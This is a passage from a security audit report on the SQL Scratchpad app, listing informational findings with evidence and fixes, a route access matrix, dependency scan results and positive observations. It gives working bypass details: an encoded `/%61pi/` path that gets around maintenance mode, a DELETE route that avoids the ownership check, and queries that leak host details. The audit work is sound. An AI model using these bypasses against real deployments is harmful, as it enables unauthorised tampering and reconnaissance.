- **Description:** Confirmed in server/src/app.ts:210, errors.ts:63-67, exec-engine.ts:472, and import-engine.ts:541: /api/health returns PKG_VERSION and query/Fastify errors return raw framework/MariaDB text. Informational only (expected behavior for SQL playground diagnostics and documented health contract). **Preconditions:** None (public). Low value; SQL playground users legitimately see DB errors for their own queries.
- **Evidence:**
  ```text
  app.ts:210  version: PKG_VERSION  // returned from unauthenticated GET /api/health, e.g. {"status":"ok","db":"ok","version":"0.3.7"}
  errors.ts:63-67  .send(formatApiError(fastifyErr.code || 'BAD_REQUEST', fastifyErr.message))  // raw framework message for any 4xx (media-type, JSON parse, etc.)
  exec-engine.ts:472  message: mysqlErr.sqlMessage ?? mysqlErr.message  // raw MariaDB error text returned to the client
  MariaDB access-denied messages have the form "SELECT command denied to user 'ws_xxx'@'<client-host>' for table ..."; with skip_name_resolve=ON <client-host> is the app container's IP on the internal Docker network (not verified against a live server in this audit). Users can also run `SELECT @@version, @@hostname, @@datadir` in their workspace.
  ```
- **Exploit scenario:** A scanner reads the exact app version from /api/health to match known advisories, and any user triggers a privilege error (e.g. `SELECT * FROM tpl_sample_library.Books`) to learn the application container's internal IP and the DB host/version. These are reconnaissance aids only; no direct exploit path from this alone.
- **Fix:** Remove `version` from the public health body (or return it only when a deploy-time header/secret is present; the SPA About page already has the version baked in at build time). Keep the container HEALTHCHECK to status/db only. Optionally normalise MariaDB error text by replacing the `@'<host>'` fragment with `@'%'` before returning it. Map unknown Fastify 4xx messages to generic text keyed by `code`. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`)

### [INFO] CICD-008 — actionlint shellcheck warning SC2034 (unused loop variable i) in ci.yml E2E wait loop

- **Location:** `.github/workflows/ci.yml:177-186`
- **Layer:** `cicd` | **CWE:** CWE-1164 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in .github/workflows/ci.yml:181: unused loop variable i triggers actionlint SC2034 warning. **Preconditions:** None.
- **Evidence:**
  ```text
  actionlint v1.7.12 output:
    .github/workflows/ci.yml:177:9: shellcheck reported issue in this script: SC2034:warning:4:1: i appears unused. Verify use (or export if used externally) [shellcheck]
  Source lines 181-186:
    for i in $(seq 1 30); do
      if curl -fsS http://127.0.0.1:5050/api/health >/dev/null 2>&1; then
        break
      fi
      sleep 1
    done
  ```
- **Exploit scenario:** No direct security exploit path; however, leaving an unresolved actionlint warning prevents enabling strict actionlint enforcement as a zero-warning CI gate for catching workflow regressions (such as script injection or invalid expressions).
- **Fix:** Replace 'for i in $(seq 1 30); do' with 'for _ in $(seq 1 30); do' on line 181 of .github/workflows/ci.yml and verify actionlint exits 0. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`)

### [INFO] CICD-009 — SECURITY.md omits supported versions, disclosure SLA, testing scope, and encrypted/platform reporting channel (GitHub Private Vulnerability Reporting disabled)

- **Location:** `SECURITY.md:1-8`
- **Layer:** `cicd` | **CWE:** CWE-1059 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in SECURITY.md:1-8 and independently via GitHub API (private-vulnerability-reporting enabled: false). **Preconditions:** An external researcher discovers a vulnerability or begins security testing against the project.
- **Evidence:**
  ```text
  SECURITY.md lines 3-5:
    ## Reporting a Vulnerability
    If you discover a security issue in SQL Scratchpad, please email **<security-contact-email>** with reproduction steps and impact details instead of opening a public issue. We will acknowledge reports promptly and coordinate a fix before disclosure.
  GitHub API (repos/hexawulf/sql-scratchpad/private-vulnerability-reporting) returns {"enabled": false}. SECURITY.md contains no Supported Versions table, no target acknowledgement/disclosure SLA, no PGP key fingerprint for encrypted email, and no testing scope statement (e.g., instructing researchers to test locally rather than running DoS tests against the live demo linked in README.md).
  ```
- **Exploit scenario:** No direct exploit path; however, external security researchers discovering a vulnerability lack a private GitHub advisory intake channel or PGP key to report details confidentially, have no clarity on whether older Docker image tags remain supported, and have no explicit boundary warning against testing DoS/hostile payloads on the public demo.
- **Fix:** 1. Enable GitHub Private Vulnerability Reporting in Repository Settings -> Code security -> Private vulnerability reporting.
2. Update SECURITY.md to link GitHub's private advisory form as the primary reporting channel (keeping <security-contact-email> as secondary), add a Supported Versions table (e.g., latest 0.3.x release only), state concrete acknowledgement/disclosure timelines, and define testing scope (test against local Docker instances; no volumetric/DoS testing against the live demo). *(Fix risk: `low`; manual action required: Yes.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`; optional manual GitHub Private Vulnerability Reporting setting)

### [INFO] CONTAINERS-007 — Non-numeric USER node in Dockerfile (Hadolint DL3066)

- **Location:** `Dockerfile:55`
- **Layer:** `containers` | **CWE:** CWE-250 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in Dockerfile:55: non-numeric USER node (Hadolint DL3066). **Preconditions:** Deploying the image under an orchestrator with static non-root UID enforcement.
- **Evidence:**
  ```text
  USER node
  ```
- **Exploit scenario:** No direct exploit path; however, orchestrators enforcing static non-root admission policies (such as Kubernetes runAsNonRoot: true under the Restricted Pod Security Standard) cannot verify a non-numeric USER name without image inspection, causing deployment failures or encouraging operators to weaken admission controls.
- **Fix:** Replace 'USER node' with 'USER 1000:1000' (matching the fixed UID/GID of node in node:24-bookworm-slim). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`)

### [INFO] CONTAINERS-008 — Dockerfile RUN commands chained with ';' instead of '&&' can mask build and permission errors

- **Location:** `Dockerfile:8`, `Dockerfile:27`, `db/Dockerfile:4`, `db/Dockerfile:10`
- **Layer:** `containers` | **CWE:** CWE-252 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in Dockerfile:8,27 and db/Dockerfile:4,10: RUN commands chained with ';' under /bin/sh discard non-final exit codes. **Preconditions:** A command prior to the final ';' fails during docker build.
- **Evidence:**
  ```text
  db/Dockerfile:4: RUN mkdir -p /var/lib/mysql-files-disabled ; chown mysql:mysql /var/lib/mysql-files-disabled ; chmod 700 /var/lib/mysql-files-disabled
  Dockerfile:27: RUN pnpm --filter @sql-scratchpad/shared build ; pnpm --filter @sql-scratchpad/server build ; pnpm --filter @sql-scratchpad/web build
  ```
- **Exploit scenario:** Dockerfile RUN executes under /bin/sh -c without set -e. Chaining commands with ';' discards the exit status of every command except the last: if chown or chmod fails on a security-relevant path (e.g., /var/lib/mysql-files-disabled or init scripts) or if the server build fails before web build, the Docker build still exits 0 and publishes a misconfigured or broken image.
- **Fix:** Replace ';' with '&&' (or prefix each multi-command RUN with 'set -eu;') in Dockerfile (lines 8, 27) and db/Dockerfile (lines 4, 10). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`)

### [INFO] CRYPTO-004 — Math.random() used for editor tab IDs (not security-sensitive)

- **Location:** `web/src/App.vue:50-52`
- **Layer:** `crypto` | **CWE:** CWE-338 | **OWASP:** A02:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in web/src/App.vue:50-52: Math.random() used only for local UI tab IDs; not security-sensitive. **Preconditions:** None; not exploitable.
- **Evidence:**
  ```text
  function makeTabId(): string {
    return `tab-${Date.now().toString(36)}-${Math.random().toString(36).slice(2, 7)}`;
  }
  ```
- **Exploit scenario:** No exploit path. The ID only distinguishes editor tabs inside one browser's localStorage and is never sent to the server, used as a token, or used for access control. Recorded because the audit brief asked for every Math.random() use. All server-side identifiers (wsId, workspace password, IpHasher salts) come from crypto.randomBytes.
- **Fix:** Optional: use crypto.randomUUID() (available in all supported browsers over HTTPS or localhost) to avoid future copy-paste of the pattern into a security context. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`)

### [INFO] CRYPTO-005 — Workspace DB names are only 48 bits and the create-failure cleanup drops whatever database has that name

- **Location:** `server/src/workspace-manager.ts:34-36`, `server/src/workspace-manager.ts:291-306`
- **Layer:** `crypto` | **CWE:** CWE-330 | **OWASP:** A04:2021 | **Confidence:** `possible`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/workspace-manager.ts:34-36,291-306: 48-bit DB name with unconditional dropDbAndUser in create catch block; random collision probability is ~1.8e-13. **Preconditions:** Astronomically unlikely random collision.
- **Evidence:**
  ```text
  export function randomWorkspaceDbName(): string { return `ws_${randomBytes(6).toString('hex')}`; }
  ...
  const database = randomWorkspaceDbName();
  try { await this.provisionDbAndUser(database, dbUser, password); ... }
  catch (err) { await this.dropDbAndUser(database, dbUser).catch(...); throw err; }
  No existence check before CREATE DATABASE; if the name already exists, CREATE DATABASE fails and the catch block runs DROP DATABASE IF EXISTS / DROP USER IF EXISTS on the existing (other tenant's) workspace.
  ```
- **Exploit scenario:** Birthday analysis: with at most 50 live workspaces (plus orphans) the chance that a new random 48-bit name collides is about 50 / 2^48, roughly 1.8e-13 per create. It cannot be provoked deliberately because the name is CSPRNG output the attacker cannot influence. If it ever happened, the failure path would destroy another tenant's database and user, which is a data-loss edge, not a confidentiality issue. The DB name is not a capability (access uses the 128-bit wsId and a 256-bit password), so predictability is not a concern; the name is returned to the client in the create response.
- **Fix:** Optional hardening: generate 128-bit names (randomBytes(8) or more), or make cleanup run only if this call's CREATE DATABASE succeeded (track a 'created' flag inside provisionDbAndUser) so a failed create can never drop a pre-existing schema. MariaDB identifier limit (64 chars) allows ws_ plus 32 hex. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`)

### [INFO] CRYPTO-006 — IpHasher uses raw prefixed SHA-256 truncated to 64 bits and ownerIpHash uses non-constant-time string equality

- **Location:** `server/src/logger.ts:146-169`, `server/src/workspace-manager.ts:512-518`
- **Layer:** `crypto` | **CWE:** CWE-328 | **OWASP:** A02:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/logger.ts:146-169 (prefixed SHA-256 truncated to 64 bits) and server/src/workspace-manager.ts:512-518 (plain !== comparison on server-derived ownerIpHash). Cryptographic hygiene note only. **Preconditions:** None; best-practice hardening note.
- **Evidence:**
  ```text
  logger.ts: createHash('sha256').update(this.keySalt).update('\0').update(normalized).digest('hex').slice(0, 16)
  workspace-manager.ts: if (expectedOwnerIpHash !== undefined && ws.ownerIpHash && ws.ownerIpHash !== expectedOwnerIpHash) { throw new ApiError(403, ...); }
  Both hash() and key() build a secret-prefix SHA-256 rather than HMAC-SHA256, and key() truncates to 64 bits even though it is kept strictly in memory and never logged. deleteWorkspace compares ownerIpHash with plain !== rather than crypto.timingSafeEqual.
  ```
- **Exploit scenario:** No practical exploit path in the current deployment: the 32-byte salts remain in memory, outputs are truncated (preventing raw Merkle-Damgard state recovery/length extension), and expectedOwnerIpHash is derived server-side from req.ip rather than caller-supplied bytes (preventing a direct timing oracle). Recorded as cryptographic hygiene hardening.
- **Fix:** Switch IpHasher.hash() and IpHasher.key() from createHash('sha256') to createHmac('sha256', salt). Keep the full 256-bit (or 128-bit) hex digest for key() since it is never logged. Compare ws.ownerIpHash and expectedOwnerIpHash using crypto.timingSafeEqual on equal-length UTF-8 buffers. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`)

### [INFO] INFRA-003 — TRUST_PROXY validator accepts /0 CIDR prefixes that Fastify rejects at boot (fail-closed crash)

- **Location:** `server/src/config.ts:4-16`, `server/src/config.ts:18-31`, `server/src/config.ts:4-31`, `server/src/config.ts:52-65`
- **Layer:** `infra` | **CWE:** CWE-290 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Downgraded (`LOW` -> `INFO`) — merged duplicate(s): `AUTHN-006`
- **Description:** Reproduced directly in Node: parseTrustProxy('0.0.0.0/0') and parseTrustProxy('::/0') pass config.ts:15 validation, but Fastify({ trustProxy: ['0.0.0.0/0'] }) throws 'TypeError: invalid range on address: 0.0.0.0/0' at startup. INFRA-003's claim that /0 enables X-Forwarded-For spoofing is false — Fastify fails closed and refuses to start, making this an info-level config-validation robustness issue (matching AUTHN-006). Merged with AUTHN-006. **Preconditions:** Operator configures TRUST_PROXY with 0.0.0.0/0 or ::/0.
- **Evidence:**
  ```text
  function isValidIpOrCidr(entry: string): boolean {
    ...
    const prefix = Number(prefixStr);
    return ipVer === 4 ? prefix >= 0 && prefix <= 32 : prefix >= 0 && prefix <= 128;
  }
  ```
- **Exploit scenario:** parseTrustProxy intentionally rejects TRUST_PROXY=true and TRUST_PROXY=1 (verified in hardening.test.ts:70-74) so operators cannot inadvertently trust arbitrary X-Forwarded-For headers. However, permitting prefix length 0 allows TRUST_PROXY=0.0.0.0/0 or ::/0 (for instance, when troubleshooting Docker bridge gateway IPs). With /0 configured, Fastify trusts every source IP, enabling any unauthenticated attacker to spoof a fresh X-Forwarded-For IP on each request to bypass all rate limits, exhaust all 50 global workspaces, and bypass ownerIpHash on POST /api/workspaces/:wsId/close.
- **Fix:** Reject prefix length 0 in isValidIpOrCidr in server/src/config.ts (require prefix >= 1, or stricter e.g. >= 8 for IPv4 and >= 16 for IPv6) and add unit tests in server/src/hardening.test.ts asserting 0.0.0.0/0 and ::/0 are rejected. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`)

### [INFO] INFRA-007 — MariaDB secure_file_priv points to a mysql-writable directory instead of NULL

- **Location:** `db/conf.d/sql-scratchpad.cnf:14`, `db/Dockerfile:4`
- **Layer:** `infra` | **CWE:** CWE-732 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in db/conf.d/sql-scratchpad.cnf:14 and db/Dockerfile:4: secure_file_priv points to a mysql-writable directory rather than NULL; mitigated by no FILE privilege on ws_* or scratchpad_admin. **Preconditions:** Requires an account with the MariaDB FILE privilege (not granted to ws_* or scratchpad_admin).
- **Evidence:**
  ```text
  db/conf.d/sql-scratchpad.cnf:14: secure_file_priv = /var/lib/mysql-files-disabled
  db/Dockerfile:4: RUN mkdir -p /var/lib/mysql-files-disabled ; chown mysql:mysql /var/lib/mysql-files-disabled ; chmod 700 /var/lib/mysql-files-disabled
  ```
- **Exploit scenario:** Pointing secure_file_priv to an existing directory owned by mysql:mysql (mode 0700) restricts server-side file import/export to that folder rather than disabling it entirely. While neither ws_* workspace users nor scratchpad_admin have the FILE privilege (so no direct exploit exists today), setting secure_file_priv = NULL disables LOAD_FILE(), LOAD DATA INFILE, and SELECT ... INTO OUTFILE/DUMPFILE unconditionally even for privileged accounts and removes an unnecessary writable path on the container rootfs.
- **Fix:** Set 'secure_file_priv = NULL' in db/conf.d/sql-scratchpad.cnf (verify SHOW VARIABLES LIKE 'secure_file_priv' returns NULL) and remove /var/lib/mysql-files-disabled creation from db/Dockerfile. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`)

### [INFO] LOGIC-008 — Pinned-session creation leaks the MariaDB connection if the initial SET SESSION fails

- **Location:** `server/src/workspace-manager.ts:607-625`
- **Layer:** `logic` | **CWE:** CWE-404 | **OWASP:** A04:2021 | **Confidence:** `possible`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/workspace-manager.ts:607-625: SET SESSION max_statement_time = 5 lacks try/catch cleanup of conn if it fails. **Preconditions:** Transient DB or network error exactly during session setup.
- **Evidence:**
  ```text
  const conn = await mysql.createConnection({ ... });
  await conn.query('SET SESSION max_statement_time = 5');   // if this throws, conn is not closed or tracked
  const threadId = conn.threadId;
  if (typeof threadId !== 'number') { await conn.end().catch(() => {}); throw ...; }
  Only the threadId branch closes the connection; a rejection from the SET leaves an open socket not stored in ws.sessions.
  ```
- **Exploit scenario:** No reliable attacker trigger identified: SET SESSION max_statement_time does not fail for a normal workspace user. If it fails (server restart mid-handshake, KILL, network fault), the orphaned connection holds one of the account's 3 MAX_USER_CONNECTIONS until the server drops it. Three such leaks would block new sessions for that workspace until reset or expiry.
- **Fix:** Wrap the SET in try/catch and call await conn.end().catch(() => conn.destroy()) before rethrowing. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`)

### [INFO] LOGIC-009 — Import mode 'fresh' wipes the workspace before the script is validated and outside the /reset rate limit

- **Location:** `server/src/import-engine.ts:363-375`, `server/src/app.ts:273-278`
- **Layer:** `logic` | **CWE:** CWE-841 | **OWASP:** A04:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/import-engine.ts:363-375 and server/src/app.ts:273-278: mode 'fresh' resets the workspace before denylist validation and under the 20/h import limit. **Preconditions:** Holder of the wsId (the workspace owner or a leaked-id holder).
- **Evidence:**
  ```text
  const statements = splitMariaDbStatements(req.sql);
  if (statements.length > this.config.IMPORT_MAX_STATEMENTS) throw ...;
  if (req.mode === 'fresh') { await this.workspaceManager.resetWorkspace(wsId, 'empty'); ws = ...; }
  // denylist (checkDenylist) and per-statement classification happen only afterwards, inside the loop
  /import is limited to 20/h and 30 MB/h, while /reset is limited to 10/h.
  ```
- **Exploit scenario:** A script whose first statement is rejected (denylist, syntax error) still destroys the existing workspace data, because the reset has already happened; the user ends up with an empty workspace plus an error. Separately, mode 'fresh' with a tiny body is an extra reset path (to 'empty') that is not counted against the stricter /reset 10/h bucket (only the 20/h import bucket). Neither gives an attacker anything beyond what /reset already offers; the impact is accidental data loss and a slightly weaker rate limit on an already cheap operation.
- **Fix:** Pre-validate the whole script (run checkDenylist and classifyImportSkip over all statements) before the destructive reset, or snapshot and roll back on failure. Count mode 'fresh' against the reset bucket (or document that import is intentionally destructive). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`)

### [INFO] WEB-005 — localStorage persists the workspace capability token (wsId) and full SQL history; loadPersistedState trusts wsId/dataset/tab ids without format or size validation

- **Location:** `web/src/utils/storage.ts:18-94`, `web/src/App.vue:54-90`, `web/src/App.vue:160-174`, `web/src/utils/storage.ts:79-81`, `web/src/utils/storage.ts:96-110`, `web/src/App.vue:765-772`
- **Layer:** `web` | **CWE:** CWE-922 | **OWASP:** A04:2021 | **Confidence:** `possible`
- **Verdict:** Confirmed — merged duplicate(s): `AUTHN-007`
- **Description:** Confirmed in web/src/utils/storage.ts:54-90 and web/src/App.vue:54-90,160-174,765-772: wsId and history persist in localStorage without format/size validation, but no XSS sink exists and mariadb.ts encodes wsId via encodeURIComponent. Merged with AUTHN-007. **Preconditions:** Requires a separate same-origin script-execution bug or local access to the browser profile.
- **Evidence:**
  ```text
  wsId: typeof parsed.wsId === 'string' && parsed.wsId.length > 0 ? parsed.wsId : null; dataset: any non-empty string; tabs/history are only type-filtered (no count, length, or duplicate-id limits; wsId is not checked against ^[a-z2-7]{8,64}$). The wsId is the sole authorisation capability for exec/import/reset/schema/kill/delete (server: wsIdParamsSchema, no ownership check except /close), and it is stored in plaintext in localStorage key sql-scratchpad:v1 together with up to 200 SQL history entries. Values are only ever rendered with Vue text interpolation (no v-html) and wsId is passed through encodeURIComponent in the adapter, so tampered values cannot inject markup or alter the request path.
  ```
- **Exploit scenario:** No exploit path found. Any future same-origin script execution (XSS, malicious browser extension, shared-profile user) could read the wsId and operate the live workspace, and oversized/forged localStorage content could slow or break startup (client-side only). Strict CSP (script-src 'self') and the absence of v-html/innerHTML currently prevent script injection.
- **Fix:** Optional hardening: in loadPersistedState validate wsId with /^[a-z2-7]{8,64}$/ and dataset with the server id charset, cap tabs (e.g. 50) and per-tab sql length (e.g. 1 MB), de-duplicate tab ids, and discard the state on violation. Consider sessionStorage for wsId so the capability does not outlive the browser session (the server already tears the workspace down on pagehide). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Deferred (informational; below `min_severity_to_fix=low`)

---

## 5. Route / endpoint access matrix

**Classification legend:**
- **Public:** No authentication, capability token, or ownership check required.
- **Authenticated (capability token):** Requires possession of a live 128-bit base32 `wsId` (`^[a-z2-7]{8,64}$`, generated via `randomBase32Id(16)`), with **no** caller-ownership (`ownerIpHash` / session cookie) verification.
- **Authorized (capability + ownership):** Requires both a live `wsId` and a matching `ownerIpHash` (`ipHasher.key(req.ip)`).

### HTTP routes & handlers (`server/src/app.ts`, `server/src/static.ts`)

| Method | Path | Auth required | Authorization check | Rate limit / DB principal / Notes |
|---|---|---|---|---|
| `GET` | `/api/health` | Public | None | **No rate limit** (`API-005`). Runs `SELECT 1` on `adminPool` (`scratchpad_admin`). Allowed under `MAINTENANCE=1` (`200 {status:"maintenance"}`). Returns `PKG_VERSION` (`API-008`). |
| `GET` | `/api/datasets` | Public | None | **No rate limit** (`API-005`). In-memory `datasets.json`. Blocked under `MAINTENANCE=1` (**bypassable via `/%61pi/datasets`**, `AUTHZ-002`). |
| `POST` | `/api/workspaces` | Public | None (records `ownerIpHash = ipHasher.key(req.ip)`) | `20/h` per IP key; caps `6/IP`, `50` global, `1 GB` DB total (`LOGIC-002` TOCTOU race; `LOADTEST_ALLOW_IPS` bypass). `adminPool` + `ws_<hex>` (views/triggers). `additionalProperties: false` + `datasetMap` allowlist. Maintenance bypassable via `/%61pi/...` (`AUTHZ-002`). |
| `POST` | `/api/workspaces/:wsId/reset` | Authenticated (capability `wsId`) | **None** (`ownerIpHash` not checked; `AUTHZ-001`) | `10/h` per IP key. `adminPool` + `ws_<hex>`. Destructive teardown + password rotation (`LOGIC-007`). Maintenance bypassable via `/%61pi/...` (`AUTHZ-002`). |
| `POST` | `/api/workspaces/:wsId/exec` | Authenticated (capability `wsId`) | **None** (`ownerIpHash` not checked; `AUTHZ-001`) | `60/min` per IP key; `256 KB` body. Pinned `ws_<hex>` session `A` or `B`. No batch wall-clock cap (`API-001`); full result buffering (`API-002`); ReDoS/DELIMITER/denylist gaps (`INJECTION-002`, `INJECTION-003`, `INJECTION-004`); logs `wsId` (`LOGGING-001`). Maintenance bypassable (`AUTHZ-002`). |
| `POST` | `/api/workspaces/:wsId/import` | Authenticated (capability `wsId`) | **None** (`ownerIpHash` not checked; `AUTHZ-001`) | `20/h` + `30 MB/h` byte budget; `7 MB` body / `6 MB` SQL / `60k` stmts / `75 s` timeout. `adminPool` (if `mode: "fresh"`) + pinned `ws_<hex>` session `A`. Concurrent body buffering (`API-004`), ReDoS (`INJECTION-001`, `INJECTION-002`), DELIMITER CPU (`INJECTION-003`), unbounded budget map (`LOGIC-005`). Maintenance bypassable (`AUTHZ-002`). |
| `GET` | `/api/workspaces/:wsId/schema` | Authenticated (capability `wsId`) | **None** (`ownerIpHash` not checked; `AUTHZ-001`) | `120/min` per IP key. Fires 6 parallel `information_schema` queries via privileged **`adminPool`** (`LOGIC-004` / `AUTHZ-003`). Missing `Cache-Control: no-store` (`WEB-002`). Maintenance bypassable (`AUTHZ-002`). |
| `POST` | `/api/workspaces/:wsId/sessions/:session/kill` | Authenticated (capability `wsId`) | **None** (`ownerIpHash` not checked; `AUTHZ-001`) | `60/min` per IP key; no body schema (accepts CORS-simple `text/plain` POST, `WEB-001`). `adminPool` (`KILL QUERY <threadId>`). Maintenance bypassable (`AUTHZ-002`). |
| `POST` | `/api/workspaces/:wsId/close` | Authorized (capability + ownership) | **Checked:** `callerIpHash` vs `ws.ownerIpHash` -> `403 FORBIDDEN` (**default-allow if `ws.ownerIpHash` falsy**; `AUTHZ-001`) | `60/min` per IP key; accepts empty/`text/plain` POST (`navigator.sendBeacon`). `adminPool` teardown. Trivially bypassed via `DELETE /api/workspaces/:wsId` (`AUTHZ-001`). Shared NAT / IPv6 `/64` peers share `ownerIpHash`. Maintenance bypassable (`AUTHZ-002`). |
| `DELETE` | `/api/workspaces/:wsId` | Authenticated (capability `wsId`) | **None** (`expectedOwnerIpHash` omitted; direct bypass of `POST /close` `403`; `AUTHZ-001`) | `60/min` per IP key. `adminPool` teardown (`LOGIC-006` orphan on failed drop). Maintenance bypassable (`AUTHZ-002`). |
| `GET`/`HEAD` | `/*` (Static SPA & Assets) | Public | None (traversal & dot-segment filter) | **No rate limit** (`API-005`); `readFile` per request. Allowed under `MAINTENANCE=1`. Raw `rawPath.startsWith('/api/')` before decoding causes `/%61pi/missing` -> `200 index.html` (`AUTHZ-002`). Applies CSP/nosniff/Referrer-Policy only after early 404 returns (`WEB-002`, `WEB-003`). |
| Other | Unknown `/api/*` & non-`GET`/`HEAD` paths | Public | None | **No rate limit** (`API-005`). JSON `404 NOT_FOUND` without security headers (`WEB-002`). |

### Global hooks & MariaDB privilege tiers

| Principal / Hook | Scope | Controls & Verified Gaps |
|---|---|---|
| `MAINTENANCE` `onRequest` hook (`server/src/app.ts:135-149`) | Global when `MAINTENANCE=1` | Checks raw un-decoded `req.url`, allowing `/%61pi/...` bypass on every API route (`AUTHZ-002`). |
| `@fastify/rate-limit` (`server/src/app.ts:159-183`) | Per-route (`global: false`) | Keys by `ipHasher.key(req.ip)` (IPv4 exact, IPv6 `/64`). Omits `/api/health`, `/api/datasets`, static SPA (`API-005`). Bypassed by `LOADTEST_ALLOW_IPS` with no `NODE_ENV=production` guard (`INFRA-001`). |
| `ws_<12hex>@'%'` (`workspace-manager.ts:854-863`) | `` `ws\_<12hex>`.* `` | Strong core isolation (no cross-DB, `mysql.*`, `FILE`, `SUPER`, `PROCESS`, `EVENT`, `GRANT OPTION`; `MAX_USER_CONNECTIONS 3`, `MAX_STATEMENT_TIME 5`). Gaps: server-global `GET_LOCK` & `GLOBAL_STATUS`/`GLOBAL_VARIABLES` (`AUTHZ-004`), `DATA/INDEX DIRECTORY` (`AUTHZ-006`), plaintext TCP (`CRYPTO-003`). |
| `scratchpad_admin@'%'` (`db/init/00-admin-user.sh:13-17`) | Global `CREATE USER`, `CONNECTION ADMIN`; `` `ws\_%`.* `` `WITH GRANT OPTION`; `` `tpl\_%`.* `` `SELECT, SHOW VIEW, TRIGGER`; `mysql.user (User, Host)` | Gaps: used directly by `/schema` (`LOGIC-004`), global `CREATE USER` permits `ALTER/RENAME USER` against active `'root'@'%'`, and `TRIGGER` on `` `tpl\_%`.* `` allows template mutation (`AUTHZ-005`). |
| `root@localhost` / `root@'%'` | Full MariaDB `ALL PRIVILEGES` | Password omitted from `deploy/app.env`; however `'root'@'%'` remains active on TCP (`AUTHZ-005`) and init scripts pass root/admin passwords via CLI flags (`SECRETS-001`, `INJECTION-006`). |

---

## 6. Dependency summary

### Vulnerability scan results

| Scanner | Scope | Vulnerabilities Found | Upgrades Required |
|---|---|---:|---|
| `pnpm audit` (`pnpm@12.21.0`) | `pnpm-lock.yaml` (all workspaces) | **0** | None (0 vulnerable packages) |
| `trivy fs --scanners vuln` (`v0.76.2`) | `pnpm-lock.yaml` (production dependencies) | **0** | None |
| `trivy fs --scanners vuln --include-dev-deps` (`v0.76.2`) | `pnpm-lock.yaml` (production + dev dependencies) | **0** | None |

### Supply-chain & dependency-hygiene observations

Although zero known CVEs were present in `pnpm-lock.yaml` at the audited commit, the audit identified five supply-chain hardening gaps:

| Finding | Summary | Action |
|---|---|---|
| `DEPS-001` (Low) | `Dockerfile` uses `ARG NODE_IMAGE=...` in `FROM ${NODE_IMAGE}`, which silently disables Dependabot's weekly Docker updater for the Node 24 base image digest. | Inline literal `FROM node:24-bookworm-slim@sha256:...` in `Dockerfile` (Phase 4). |
| `DEPS-002` (Low) | `pnpm-workspace.yaml` enables `allowBuilds: { esbuild: true }`, and `Dockerfile:18` / `.github/workflows/ci.yml` omit `--ignore-scripts` even though `esbuild` ships prebuilt optional binaries and the full build/test suite passes with `--ignore-scripts`. | Disable `esbuild` build scripts and add `--ignore-scripts` in Docker and CI (Phase 4). |
| `DEPS-005` (Low) | `package.json` (`packageManager`), `Dockerfile`, and `ci.yml` pin `pnpm@12.21.0` without a `+sha512.<hex>` Corepack integrity digest. | Pin the verified SHA-512 hash in `package.json`, `Dockerfile`, and `ci.yml` (Phase 4). |
| `CICD-004` / `DEPS-003` (Low) | CI and release workflows run no `pnpm audit`, container CVE scan, or workflow/Dockerfile lint gates. | Add automated dependency audit and lint checks in CI (Phase 4). |
| `CICD-005` / `DEPS-004` (Low) | GitHub Dependabot automated security updates are `disabled` in repository settings despite `.github/dependabot.yml` stating they are enabled. | Enable in GitHub Repository Settings (Manual action). |

---

## 7. Positive observations

The following existing controls are well implemented and should be preserved during future changes:

- **Strong per-workspace MariaDB privilege isolation:** Every workspace receives a randomly named schema (`ws_<12hex>`) and dedicated user (`ws_<12hex>@'%'`) with a 256-bit CSPRNG password, properly escaped `GRANT` wildcards (`escapeGrantDbIdent`), `MAX_USER_CONNECTIONS 3`, `MAX_QUERIES_PER_HOUR 100000`, `MAX_STATEMENT_TIME 5`, and no `FILE`, `SUPER`, `PROCESS`, `EVENT`, `SET USER`, or `GRANT OPTION` privileges.
- **Database engine hardening:** Workspace connections enforce `multipleStatements: false` (preventing stacked-query smuggling past the splitter), and `db/conf.d/sql-scratchpad.cnf` sets `local_infile = 0`, `performance_schema = OFF`, `skip_name_resolve = ON`, `max_recursive_iterations = 1000`, `max_allowed_packet = 4M`, and strict `sql_mode`.
- **Network isolation of MariaDB:** `deploy/docker-compose.yml` places MariaDB on a dedicated `internal: true` Docker network with zero host ports published, while `app` binds strictly to `127.0.0.1:5050`.
- **Clean frontend XSS posture & zero external CDNs:** Static inspection across every Vue 3 component, utility, and public asset confirmed zero `v-html`, `innerHTML`, `outerHTML`, `eval`, or `new Function` sinks; external links use `rel="noopener noreferrer"`; all fonts (`@fontsource/jetbrains-mono`) and runtime assets are self-hosted with zero third-party requests; SPA responses enforce `script-src 'self'` and `frame-ancestors 'none'`.
